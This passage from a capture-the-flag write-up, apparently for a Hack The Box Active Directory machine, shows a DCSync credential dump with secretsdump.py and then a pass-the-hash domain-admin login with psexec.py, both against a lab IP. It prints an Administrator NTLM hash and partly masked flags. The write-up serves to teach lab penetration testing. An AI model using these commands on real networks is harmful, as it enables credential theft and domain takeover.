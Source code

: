 <img width="955" alt="Pasted image 20240107153113" src="https://github.com/iammR0OT/iammR0OT.github.io/assets/74102381/33239c6a-496f-4388-b08c-304dd9ad1163">

### DcSyns using Secretsdump.py

Now, let's perform a **DcSync** attack using **secretsdump.py** from the Impacket toolkit 
**SecretsDump.py** is a Python tool by Impacket that can extract secrets from targets. **SecretsDump.py** performs various techniques to dump hashes from the remote machine without executing any agent there. For **SAM** and **LSA** Secrets (including cached creds) it tries to read as much as it can from the **registry** and then saves the hives in the target system `(%SYSTEMROOT%\Temp dir)` and reads the rest of the data from there. For **NTDS.dit** it uses the **Volume Shadow Copy Service** to read NTDS.dit directly from the disk or it can use the parser module to read NTDS.dit files from a copy.

```bash
$ secretsdump.py -dc-ip 10.10.10.161 htb.local/admin:password@10.10.10.161
```
`Administrator:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6`

<img width="844" alt="Pasted image 20240107153217" src="https://github.com/iammR0OT/iammR0OT.github.io/assets/74102381/550c2a39-694a-4150-b58c-0d785ec6484e">

#### Pass-the-hash

Now, we just need to perform a **Pass-The-Hash** attack to log in to the Administrator account using **PsExec**. 
PsExec is a **light-weight telnet-replacement** that lets you execute processes on other systems, complete with full interactivity for console applications, without having to manually install client software.

```bash
$ psexec.py htb.local/Administrator@10.10.10.161 -hashes 'aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6'
``` 

And we own domain Administrator. 

<img width="954" alt="Pasted image 20240107153914" src="https://github.com/iammR0OT/iammR0OT.github.io/assets/74102381/a954eec3-4383-443e-beab-cb1425ba0ac0">

# Flags

User : 173f....1da636............f8c99d

Root : b2....523934d9..............753aa

# Happy Hacking :)
